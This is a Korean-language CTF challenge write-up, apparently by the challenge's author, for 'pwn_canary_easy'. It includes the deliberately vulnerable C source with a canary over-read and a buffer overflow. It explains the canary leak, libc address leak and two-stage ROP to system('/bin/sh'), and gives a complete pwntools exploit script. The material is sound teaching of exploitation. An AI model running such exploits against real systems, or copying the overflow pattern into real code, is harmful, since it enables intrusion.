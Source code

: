 pwn_canary_easy 문제제작 라이트업
==============

## 개요

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

static void banner(void){
    puts("=== Canary & ROP Playground (easy) ===");
    puts("1) leak canary");
    puts("2) overflow");
    puts("3) exit");
}

static void leak_canary(void){
    char buf[64];
    puts("[+] say something (<=64 bytes):");
    ssize_t n = read(0, buf, sizeof(buf));
    if (n <= 0) exit(1);
    puts("[+] echo with slight over-read (80 bytes) ...");
    /* buf(64) + canary(8) + SFP(8)의 일부까지 노출 */
    write(1, buf, 80);
    puts("");
}

static void vuln(void){
    char buf[64];
    puts("[+] overflow me now:");
    /* Canary가 걸려있으니 정확한 값이 아니면 abort */
    read(0, buf, 256);
    puts("done");
}

int main(void){
    setvbuf(stdin,  NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    alarm(120);

    while (1){
        banner();
        printf("> ");
        char sel[8] = {0};
        if (read(0, sel, sizeof(sel)-1) <= 0) return 0;
        switch (atoi(sel)){
            case 1: leak_canary(); break;
            case 2: vuln();        break;
            case 3: puts("bye");   return 0;
            default: puts("?");    break;
        }
    }
    return 0;
}
```

제공하는 바이너리는 Canary가 활성화되어 있어 단순한 반환주소 덮어쓰기가 실패한다.
그러나 Canary 값을 릭할 수 있으며, 이후 Canary를 정확히 되써넣어 BOF를 성공시킬 수 있다.
이후 2단계의 ROP 패턴(함수 주소 릭 → libc base 계산 → `system("/bin/sh")`)으로 쉘을 획득할 수 있다.

---

## 1) 보호기법 확인

```bash
$ checksec --file=./pwn_canary_easy

# Arch: amd64-64-little
# RELRO:    full
# Stack:    canary found
# NX:       enabled
# PIE:      disabled
```

* Canary 있음 → 정확한 우회 필요
* NX 있음 → ROP 필요
* PIE 끔 → 가젯/PLT/GOT 주소가 고정

---

## 2) Canary 릭(메뉴 1)

코드 상 `leak_canary()`는 `read(buf, 64)`로 받은 뒤 \*\*`write(…, 80)`\*\*으로 80바이트를 그대로 내보낸다.
보통 `buf[64]` 바로 뒤에 **8바이트 Canary**가 위치하므로 출력 80바이트 중 **\[64:72]** 구간이 Canary이다.



```text
1            # 메뉴 1 선택
AAAA...x64   # 임의 64바이트 입력
(프로그램이 80바이트 출력 → 끝 16바이트 중 앞 8바이트가 Canary)
```



---

## 3) 1차 ROP로 libc 주소 릭

이제 BOF 수행(메뉴 2). Canary를 정확히 넣고, SFP(saved RBP)를 더미로 채운 뒤,
ROP 체인을 통해 `puts@PLT(puts@GOT)`를 호출 → puts의 실제 libc 주소를 얻는다.
이후 `vuln`으로 복귀해 2차 ROP를 준비한다.


```
padding(64) + canary(8) + SFP(8) +
ret(정렬) +
pop rdi; ret +
&puts@GOT +
&puts@PLT +
&vuln
```

수신한 한 줄을 8바이트 정렬로 채워 `u64`로 복원하면 `puts@libc`가 된다.

---

## 4) libc base 계산

제공된 `libc.so.6`을 pwntools의 `ELF`로 로드한다.

```
libc_base = leaked_puts - libc.symbols['puts']
system = libc.symbols['system']
binsh  = next(libc.search(b"/bin/sh\x00"))
```

이제 필요한 심볼 주소를 계산할 수 있다.

---

## 5) 2차 ROP로 쉘 획득

다시 메뉴 2로 진입해서 같은 방식으로 Canary/SFP를 채우고 최종적으로

```
ret(정렬) +
pop rdi; ret +
&"/bin/sh" +
&system
```

---

## 6) 플래그 읽기

쉘이 뜨면 그대로 cat flag.txt 해서 플래그를 얻어내면 된다.

---------


## 전체 익스플로잇 코드


```python
#!/usr/bin/env python3
from pwn import *
context.binary = ELF("./pwn_canary_easy")
elf = context.binary
libc = ELF("./libc.so.6")         

def start():
    # 로컬 실행
    return process([elf.path])

io = start()

def menu(n):
    io.recvuntil(b"> ")
    io.sendline(str(n).encode())

# 1) canary leak
menu(1)
io.recvuntil(b"(<=64 bytes):\n")
io.send(b"A"*64)
io.recvuntil(b"over-read (80 bytes) ...\n")
leak = io.recvn(80)                # buf(64) + canary(8) + ...
canary = u64(leak[64:72])
log.success(f"canary = {hex(canary)}")

# 2) 1차 ROP: puts(puts@GOT) → vuln 복귀
menu(2)
rop = ROP(elf)
pop_rdi = rop.find_gadget(['pop rdi','ret']).address
ret     = rop.find_gadget(['ret']).address

payload  = b"A"*64
payload += p64(canary)             # 정확한 canary
payload += b"B"*8                  # saved RBP
payload += p64(ret)                # stack align
payload += p64(pop_rdi)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['vuln'])# 다시 vuln으로

io.sendline(payload)

# puts leak 수신
leaked = io.recvline().strip().ljust(8, b'\x00')
puts_libc = u64(leaked)
log.success(f"puts@libc = {hex(puts_libc)}")

# libc base 계산
libc.address = puts_libc - libc.symbols['puts']
system = libc.symbols['system']
binsh  = next(libc.search(b"/bin/sh\x00"))
log.info(f"libc base = {hex(libc.address)}")
log.info(f"system = {hex(system)}, binsh = {hex(binsh)}")

# 3) 2차 ROP: system("/bin/sh")
menu(2)
payload2  = b"A"*64
payload2 += p64(canary)
payload2 += b"B"*8
payload2 += p64(ret)
payload2 += p64(pop_rdi)
payload2 += p64(binsh)
payload2 += p64(system)

io.sendline(payload2)
io.interactive()
```

